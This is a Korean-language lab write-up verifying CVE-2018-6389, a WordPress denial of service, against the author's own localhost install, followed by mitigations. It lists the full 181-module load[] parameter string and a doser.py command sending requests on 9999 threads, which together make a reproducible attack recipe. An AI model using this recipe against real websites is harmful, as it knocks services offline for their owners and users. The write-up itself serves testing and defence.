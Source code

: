 #+TITLE: CVE-2018-6389 POC

* 취약점 개요
- 서버 CPU에 부담을 주는 타입의 Dos 공격
- 본래 성능을 위한 기능인 load-scripts.php, load-styles.php 의 취약점을 악용함
- wp-login.php 에도 해당 기능이 들어가 있으므로 인증 없이 공격이 가능하다. 
  (만약 wp-login.php 페이지에 접근 제한이 걸려있으면 공격이 불가능할 것임)
- 이 페이지에서는 실제로 공격이 가능한지 검증해 보고자 한다.

* POC 개요
** 해킹 환경
- 예전에 설치해두었던 워드 프레스를 활용한다.

** 대상 URL
- http:/localhost/wordpress/wp-admin/load-scripts.php

* POC 진행
** load-scripts 구동여부 체크
http:/localhost/wordpress/wp-admin/load-scripts.php?c=1&load%5B%5D=jquery-ui-core&ver=4.9.1 를 요청해본다.

설명글에서처럼 jQuery UI 의 js코드를 출력해주는 것을 볼 수 있다. 이 것으로 load-scripts.php가 구동중인 것을 확인하였다.

[[./img/load-script-test.png]]


** script-loader.php 체크
script-loader.php에는 각종 스크립트를 로드하기 위한 코드가 있는 것을 확인하였다.
[[./img/script-loader-content.png]]

** load[] 파라메터에 로드 가능한 모든 스크립트를 지정
script-loader.php에 적혀있는 다음 181개의 모듈을 load[]파라메터에 지정한다. 

#+BEGIN_SRC bash
eutil,common,wp-a11y,sack,quicktag,colorpicker,editor,wp-fullscreen-stu,wp-ajax-response,wp-api-request,wp-pointer,autosave,heartbeat,wp-auth-check,wp-lists,prototype,scriptaculous-root,scriptaculous-builder,scriptaculous-dragdrop,scriptaculous-effects,scriptaculous-slider,scriptaculous-sound,scriptaculous-controls,scriptaculous,cropper,jquery,jquery-core,jquery-migrate,jquery-ui-core,jquery-effects-core,jquery-effects-blind,jquery-effects-bounce,jquery-effects-clip,jquery-effects-drop,jquery-effects-explode,jquery-effects-fade,jquery-effects-fold,jquery-effects-highlight,jquery-effects-puff,jquery-effects-pulsate,jquery-effects-scale,jquery-effects-shake,jquery-effects-size,jquery-effects-slide,jquery-effects-transfer,jquery-ui-accordion,jquery-ui-autocomplete,jquery-ui-button,jquery-ui-datepicker,jquery-ui-dialog,jquery-ui-draggable,jquery-ui-droppable,jquery-ui-menu,jquery-ui-mouse,jquery-ui-position,jquery-ui-progressbar,jquery-ui-resizable,jquery-ui-selectable,jquery-ui-selectmenu,jquery-ui-slider,jquery-ui-sortable,jquery-ui-spinner,jquery-ui-tabs,jquery-ui-tooltip,jquery-ui-widget,jquery-form,jquery-color,schedule,jquery-query,jquery-serialize-object,jquery-hotkeys,jquery-table-hotkeys,jquery-touch-punch,suggest,imagesloaded,masonry,jquery-masonry,thickbox,jcrop,swfobject,moxiejs,plupload,plupload-handlers,wp-plupload,swfupload,swfupload-all,swfupload-handlers,comment-repl,json2,underscore,backbone,wp-util,wp-sanitize,wp-backbone,revisions,imgareaselect,mediaelement,mediaelement-core,mediaelement-migrat,mediaelement-vimeo,wp-mediaelement,wp-codemirror,csslint,jshint,esprima,jsonlint,htmlhint,htmlhint-kses,code-editor,wp-theme-plugin-editor,wp-playlist,zxcvbn-async,password-strength-meter,user-profile,language-chooser,user-suggest,admin-ba,wplink,wpdialogs,word-coun,media-upload,hoverIntent,customize-base,customize-loader,customize-preview,customize-models,customize-views,customize-controls,customize-selective-refresh,customize-widgets,customize-preview-widgets,customize-nav-menus,customize-preview-nav-menus,wp-custom-header,accordion,shortcode,media-models,wp-embe,media-views,media-editor,media-audiovideo,mce-view,wp-api,admin-tags,admin-comments,xfn,postbox,tags-box,tags-suggest,post,editor-expand,link,comment,admin-gallery,admin-widgets,media-widgets,media-audio-widget,media-image-widget,media-gallery-widget,media-video-widget,text-widgets,custom-html-widgets,theme,inline-edit-post,inline-edit-tax,plugin-install,updates,farbtastic,iris,wp-color-picker,dashboard,list-revision,media-grid,media,image-edit,set-post-thumbnail,nav-menu,custom-header,custom-background,media-gallery,svg-painter
#+END_SRC

결과는 다음과 같다. 정상적으로 서버에서 처리된 것을 알 수 있다. 2.2 초 걸렸다는 설명글과는 달리 1초 이내로 서버측에서 회신이 왔다. 이 것은 해킹 환경이 로컬환경이라서 네트워크 부하만큼의 시간이 추가되지 않은 것으로 보인다.

[[./img/script-load-all-result.png]]


** doser.py 를 사용해서 다량의 동일한 요청을 보내기
동일한 요청을 엄청나게 많이 보내면 어떻게 될까? 최초 보고자가 제공한 doser.py 를 사용해서 테스트를 해보겠다.

아래의 명령은 동일한 GET 요청을 9999개의 스레드로 실행하는 명령이다.

#+BEGIN_SRC bash 
python doser.py -g '공격URL' -t 9999
#+END_SRC

결과는 다음과 같다. 

[[./img/attack-result.png]]

[[./img/attack-result-2.png]]

서버측의 상태를 정리하면 다음과 같다. 
- 서버측 CPU 사용량이 거의 100% 가깝게 올라가있는 상태가 지속된다. (정상적인 운영이 어려운 정도)
- 요청을 처리하기 위한 apache2 프로세스가 엄청나게 늘어난다. 
- access 로그(/var/load/apache2/access.log)의 용량이 갑자기 수메가바이트 늘어난다.

여기까지의 POC를 통해 실제로 DOS공격이 가능한 것을 확인하였다. 

* 대응 방법
워드프레스 개발팀은 이 취약점을 대응하지 않겠다고 했다. 

현재까지 알려진 대응방법은 

1) 워프프레스에서 load 모듈의 사용을 막는 유저 패치 적용

2) 아파치에서 동시 요청 제한 

이다. 다음 글에서는 이 대응 방법에 대해서 검증해보겠다. 



* Ref
- 최초 보고자의 설명글 : https://baraktawily.blogspot.jp/2018/02/how-to-dos-29-of-world-wide-websites.html


